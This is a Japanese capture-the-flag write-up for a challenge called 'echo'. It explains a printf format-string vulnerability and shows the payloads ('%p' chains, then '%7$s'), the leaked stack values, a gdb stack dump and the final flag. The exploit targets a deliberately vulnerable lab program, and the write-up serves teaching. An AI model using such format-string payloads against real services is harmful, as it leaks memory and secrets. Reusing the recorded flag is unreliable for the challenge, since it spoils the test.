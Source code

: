 # echo writeup

## 問題文

```txt
echo echo

`nc 203.0.113.0 4002`
```

## about

flagがバッファに読み込まれてはいるものの，通常の挙動では表示されません．

バッファのポインタはスタック上にあるので，format string attackを使って読み出します．

## writeup

任意のディスアセンブラ等で確認すると，`main`関数の最初で`flag.txt`を読み込んでいる事がわかるので，ローカルでも適当なflagを用意しておきます．

```txt
echo hogefugapiyo > flag.txt
```

また，`main`関数内では，ユーザが任意のデータを入力できるバッファをそのまま`printf`の第一引数に渡している事からfsaが利用可能である事がわかります．

gdbとfsaを使ってスタックの状態を確認してみます．

`%p`を用いて，スタック上の値を表示します．

```txt
%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p
0xa,(nil),(nil),0xa,0x7ffffffa,0x5555555592a0,0x555555559480,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x70252c70,(nil),(nil)
```

また，gdbを用いてスタックを見てみると，`0x555555559480`に"hogefugapiyo"(ローカルで用意したダミーのflag)がある事がわかります．

```txt
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffd208 --> 0x555555555452 (<main+489>:    mov    edi,0xa)
0008| 0x7fffffffd210 --> 0x5555555592a0 --> 0xfbad2488
0016| 0x7fffffffd218 --> 0x555555559480 ("hogefugapiyo\n")
0024| 0x7fffffffd220 ("%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p")
0032| 0x7fffffffd228 (",%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p")
0040| 0x7fffffffd230 ("p,%p,%p,%p,%p,%p,%p,%p,%p,%p")
0048| 0x7fffffffd238 ("%p,%p,%p,%p,%p,%p,%p")
0056| 0x7fffffffd240 (",%p,%p,%p,%p")
```

ここで，改めてプログラムからの出力を確認すると，`0x555555559480`は7番目である事がわかります．

よって，`%7$s`でこのアドレスの文字列を読み出します．

ローカルで確認すると

```txt
$ ./chall
%7$s
hogefugapiyo

$ cat flag.txt
hogefugapiyo
```

しっかりと`flag.txt`の内容が出力されている事がわかったので，リモートにも同じ文字列を送ります．

## flag

`ISCCTF{th3_f1r5t_4rgum3nt_0f_printf_must_b3_a_str1ng_l1t3r4l}`
